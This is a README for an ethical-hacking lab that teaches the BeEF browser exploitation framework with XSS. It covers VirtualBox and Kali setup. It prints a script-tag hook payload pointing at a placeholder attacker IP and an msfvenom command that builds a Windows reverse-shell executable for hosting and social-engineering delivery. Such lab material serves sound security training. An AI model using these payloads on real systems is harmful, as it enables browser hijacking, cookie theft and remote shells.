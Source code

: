# BeEF-XSS
BeEF (Browser Exploitation Framework) is a penetration testing tool focusing on web browsers. It "hooks" a target’s browser
# BeEF-XSS – Ethical Hacking & Browser Exploitation Lab

This project demonstrates how to use the **Browser Exploitation Framework (BeEF)** with **Cross-Site Scripting (XSS)** vulnerabilities to simulate client-side attacks in a controlled, ethical hacking environment.

> ⚠️ **Disclaimer**: This lab is intended for educational and authorized penetration testing purposes only. Do not use these techniques on systems you do not own or have explicit permission to test.

---

## Chapter 1: Setting Up the Virtual Lab

We create a safe, isolated environment for ethical hacking and browser exploitation:

### Required Virtual Machines

- **Kali Linux** (Attacker Machine)
- **Ubuntu Desktop VMs** (Victim Machines)
- **Metasploitable2** (Vulnerable Linux Server)

### Tool: VirtualBox

VirtualBox is a free and open-source virtualization tool to run our VMs.

1. Download from [https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads)
2. Install and create virtual machines with proper specs.
3. Configure **networking**: Use "Internal Network" for isolated attack scenarios.

---

## Chapter 2: Installing Kali Linux

### Method 1: Dual Boot (Windows + Kali Linux)

- Use **Rufus** to create bootable USB.
- Shrink Windows partition (30–50GB).
- Install Kali from USB.
- Setup GRUB bootloader to dual boot between Windows and Kali.

### Method 2: VirtualBox (Recommended)

1. Download Kali VirtualBox image from [https://www.kali.org](https://www.kali.org)
2. Import `.ova` file into VirtualBox.
3. Set **network to Internal Network**.
4. Boot up Kali Linux VM.

> Fix sources with:
```bash
sudo nano /etc/apt/sources.list
```
### Add:

deb http://http.kali.org/kali kali-rolling main contrib non-free non-free-firmware
```bash
sudo apt update && sudo apt full-upgrade -y
```

# Chapter 3: BeEF-XSS – Complete Guide

## What is BeEF?
BeEF (**Browser Exploitation Framework**) is a penetration testing tool that focuses on **client-side attacks** via web browsers.

**XSS (Cross-Site Scripting)** allows attackers to inject malicious scripts into web pages.

---

## Why Use BeEF-XSS?
- Demonstrates **real-world XSS attack scenarios**  
- Helps understand **browser exploitation & social engineering**  
- Shows **why front-end security matters**  

---

## ⚙️ Installing BeEF on Kali Linux

### Step 1: Check if Installed
```bash
beef-xss
```
If not found, install it:
```bash
sudo apt update && sudo apt install beef-xss -y
```
### Step 2: Change Default Credentials
```bash
sudo nano /etc/beef-xss/config.yaml
# Change username and password here
```
### Step 3: Start BeEF
```bash
sudo service beef-xss start
```

Open in browser:
http://localhost:3000/ui/panel

Default credentials:
```bash
Username: beef  
Password: beef
```
## Hooking a Browser

Inject this payload via an XSS vulnerability:
```bash
<script src="http://<attacker-ip>:3000/hook.js"></script>
```

Once executed, the victim’s browser connects to BeEF and appears in the control panel.

From there, you can:

Steal cookies

Create fake login prompts

Scan internal networks

Launch social engineering attacks

# Sample Payload with Metasploit (msfvenom)
### Step 1: Create Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -f exe > payload.exe
```
### Step 2: Host the Payload
```bash
mv payload.exe /var/www/html/
```

Send the link using BeEF’s social engineering modules.

# Folder Structure
```bash
BeEF-XSS/
├── setup/
│   └── virtualbox_guide.md
├── payloads/
│   └── xss_beef_hook.html
├── screenshots/
│   └── panel.png
├── README.md
```
